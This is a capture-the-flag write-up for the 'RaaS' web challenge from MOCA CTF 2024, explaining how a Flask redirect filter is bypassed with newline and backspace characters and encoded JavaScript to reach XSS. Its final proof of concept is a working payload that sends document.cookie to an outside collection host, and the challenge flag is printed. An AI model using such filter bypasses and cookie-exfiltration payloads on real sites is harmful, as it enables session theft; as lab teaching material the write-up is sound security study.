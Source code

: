 # RaaS \[WEB]

## RaaS \[WEB] - MOCA CTF 2024 Quals

***

!\[\[./assets/MocaCTF\_logo.png]]

## TL;DR

* The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

## 0. Description

> A simple click-to-xss to warmup.

***

### 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

!\[\[./assets/RaaS\_firstlook.png]]

Source code is provided, so we'll look into that to understand what's happening.

### 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**

```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

Clicking on the "_Get Redirected!_" button will trigger the `/redirectTo` route, which is anyway triggered also by the "_Redirect the Admin!_" button that executes the `/redirectAdmin` route. The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "_Follow Link_" button.

!\[\[./assets/Raas\_redirectTo.png]]

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ``r'[()=$`]'`` that will limit us later on exploitation. Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

!\[\[./assets/Raas\_browserblock.png]] My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

## 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.

### 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it! We will write

```
java
script
```

instead. Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

> \[!info] NOTE Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter. The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

### 2.2) doesn't starts with "j" bypass

This one was tougher. the strip function that was allowing me to bypass the previous check was sending me crazy on this one. Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`). Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour: !\[\[./assets/Raas\_NULLbyteinurl.png]] As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol. However, i felt in being in the right path, until the previous blog confirmed my sensations.

!\[\[./assets/RaaS\_controlcharsinURL.png]] Control Characters are allowed?? It did, in fact. Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol! And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control\_character) below would have probably get the job done. !\[\[./assets/Raas\_ASCIIcontrolchars.png]]

### 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

> \[!info] Fun Fact [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md). I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

### 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

!\[\[./assets/RaaS\_finalpayload.png]]

> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

***

#### TAGS: #XSS #flask
